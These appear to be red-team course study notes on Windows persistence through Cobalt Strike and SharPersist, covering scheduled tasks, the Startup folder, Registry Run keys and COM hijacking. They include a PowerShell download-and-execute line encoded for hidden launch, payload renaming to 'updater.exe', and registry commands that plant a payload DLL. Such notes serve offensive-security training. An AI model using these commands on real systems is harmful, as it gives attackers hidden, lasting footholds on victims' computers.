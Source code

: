 # Host Persistence

No commands in CS, so need other tools like [SharPersist](https://github.com/fireeye/SharPersist). SharPersist has the parameters:
  * -t - desired persistence technique
  * -c - command
  * -a - any arguments for that command
  * -n - task name
  * -m add - adds the task (also remove, check and list)
  * -o - task frequency
  * For Startup Folder:
    * -f - filename to save command as
  * For Registry AutoRun:
    * -k - registry key to modify
    * -v - name of the registry key to create
  * 

## Task Scheduler

Allows a payload to execute on a trigger such as time of day, user logon, idle, when the computer is locked, or a combination. Good to base64 encode the command due to quotation confusion (it's Unicode encoding).

Examples:
* Linux shell:
  ```
  set str 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
  echo -en $str | iconv -t UTF-16LE | base64 -w 0```
* or PS:
  ```
  $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
  [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))```
* On beacon:
  ```execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded command string>" -n "Updater" -m add -o hourly```

## Startup Folder
On beacon:
  ```execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded command string>" -f "UserEnvSetup" -m add```

## Registry AutoRun

AutoRun values in HKCU and HKLM allow applications to start on boot. Commonly used for software updaters, download assistants, and driver utilities.

On beacon:
  ```
  cd C:\ProgramData
  upload C:\Payloads\http_x64.exe
  mv http_x64.exe updater.exe  // renames on Linux
  execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
  ```

## COM Hijacks

### Registry

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) (in [Sysinternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)) shows real-time file system, registry and process activity. It's useful for finding privilege escalation primitives. Practice locally or in a VM.
* Launch procmon64.exe on Attacker Desktop
* Filter for:
  * RegOpenKey operations
  * Where the Result is NAME NOT FOUND
  * Path ends with InprocServer32
* Look for CLSIDs that get loaded frequently, but not constantly (e.g. HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32)
* To see where it's loaded, in PS:
  ```
  Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
  Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
  ```
* If it shows that it exists in HKLM but not HKCU:
  ```
  New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
  New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
  New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
  ```
* When DllHost.exe loads the new COM entry, we get a beacon.
* Remove the registry entries from HKCU and delete the DLL to clean up.

### Task Scheduler

Many default Windows tasks use Custom Triggers to call COM objects. Look for tasks triggered when a user logs in. This gives effective reboot persistence. To find compatible tasks:
```
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks) {
  if ($Task.Actions.ClassId -ne $null) {
    if ($Task.Triggers.Enabled -eq $true) {
      if ($Task.Principal.GroupId -eq "Users") {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
} } } }
```
1. Look the tasks up in Task Scheduler
2. ```Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"```
3. Do the HKLM/HKCU check above
4. Add a duplicate entry as above


